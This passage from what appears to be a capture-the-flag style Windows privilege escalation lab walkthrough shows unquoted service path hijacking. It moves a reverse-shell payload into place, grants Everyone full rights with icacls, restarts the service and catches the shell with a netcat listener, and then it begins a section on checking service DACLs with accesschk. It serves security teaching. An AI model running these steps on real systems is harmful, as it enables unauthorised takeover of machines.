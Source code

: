 user@attackerpc$ nc -lvp 4446
```
Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to C:\MyPrograms\Disk.exe. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

Command Prompt
```
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```
Once the service gets restarted, your payload should execute:

Command Prompt
```
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```
As a result, you'll get a reverse shell with svcusr2 privileges:

Kali Linux
```
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```
Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.



### Insecure Service Permissions
---

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the ```Sysinternals``` suite. 

For your convenience, a copy is available at ```C:\\tools```. The command to check for the thmservice service DACL is:

Command Prompt
```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users